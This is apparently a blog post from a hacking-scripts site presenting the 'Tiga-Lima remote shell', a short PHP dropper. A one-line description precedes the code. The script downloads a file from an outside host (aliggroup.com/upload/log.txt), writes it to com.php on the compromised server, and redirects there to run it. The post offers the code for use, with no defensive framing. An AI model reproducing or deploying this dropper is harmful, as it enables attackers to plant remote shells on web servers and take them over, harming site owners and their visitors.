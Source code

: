 ```yaml
---
id: 62
title: Tiga-Lima remote shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=62
permalink: /tiga-lima-remote-shell/
categories:
  - PHP
  - Tiga-Lima
tags:
  - PHP
  - Tiga-Lima
---
```

This is a very simple script that attempts to write the contents of a remote file (presumably some sort of hack script) to a local file on the hacked server.

### Tiga-Lima remote shell source code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
$namafile="com.php";
$file = fopen($namafile ,'w+');
$fa=file_get_contents('http://www.aliggroup.com/upload/log.txt');
$write = fwrite ($file ,$fa);
header ("location:com.php");
?&gt;
</pre>